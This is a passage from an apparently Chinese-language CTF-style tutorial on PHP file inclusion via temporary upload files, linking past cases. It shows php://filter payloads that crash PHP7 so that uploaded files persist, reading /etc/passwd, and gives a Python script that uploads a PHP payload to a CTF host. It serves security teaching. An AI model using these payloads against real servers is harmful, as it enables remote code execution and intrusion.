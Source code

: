 
**下面是两个实际的例子**

**1.NU1L CTF 2018**

http://dann.com.br/php-winning-the-race-condition-vs-temporary-file-upload-alternative-way-to-easy_php-n1ctf2018/

**2.链家旗下自如某站一个有意思的文件包含到简单内网渗透**

http://wooyun.jozxing.cc/static/bugs/wooyun-2015-0134185.html

**补充：思考关于临时文件的含义**

这个包含临时文件的思想不要仅仅局限于 php
自己产生的临时文件，其他服务也可能会有可控的临时文件，这个时候我们也可以选择包含这些临时文件，就比如我之前[这篇文章](http://www.k0rz3n.com/2018/11/19/一篇文章带你深入理解 XXE 漏洞/)说过的 上传的 jar ，我们一样也可以包含，于是我在 LCTF 2018 出了这一道题，具体细节可以看我的[这篇文章](http://www.k0rz3n.com/2018/11/19/LCTF 2018 T4lk 1s ch34p,sh0w m3 the sh31l 详细分析/)

##### 方式二：php7 Segment Fault

可以用php7 segment fault特性，向PHP发送含有文件区块的数据包时，让PHP异常崩溃退出，POST的临时文件就会被保留

利用`php://filter/string.strip_tags`导致php崩溃，同时可上传文件保存在**/tmp**目录来上传木马.

这种包含会导致php执行过程中出现segment fault，此时上传文件，临时文件会被保存在`upload_tmp_dir`所指定的目录下，不会被删除，这样就能达成getshell的目的。

```php
php < 7.2：php://filter/string.strip_tags/resource=/etc/passwd

php7 老版本通杀：php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAAAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA
```

利用脚本：

```php
import requests
from io import BytesIO
url="http://f325d633-efa0-4a8c-a61d-90fc70c9ea1d.node3.buuoj.cn/flflflflag.php?file=php://filter/string.strip_tags/resource=/etc/passwd"
payload="<?php phpinfo();?>"
files={
    "file":BytesIO(payload.encode())
}
r=requests.post(url=url,files=files,allow_redirects=False)

print(r.text)
```

这样生成临时文件之后，一般在临时文件目录，题目一般会配给一个dir.php之类的文件，方便列目录文件，拿到上传的临时文件名，但是要是没有呢？

假如没有`dir.php`还能利用吗，答案是可以的，因为我们传入的恶意文件没有被删除，这样我们就可以爆破这个文件的文件名。

在上面的讲述中，我们知道不同的系统默认的临时文件存储路径和方式都不一样

- Linux

```
Linux临时文件主要存储在`/tmp/`目录下，格式通常是（`/tmp/php[6个随机字符]`）
```
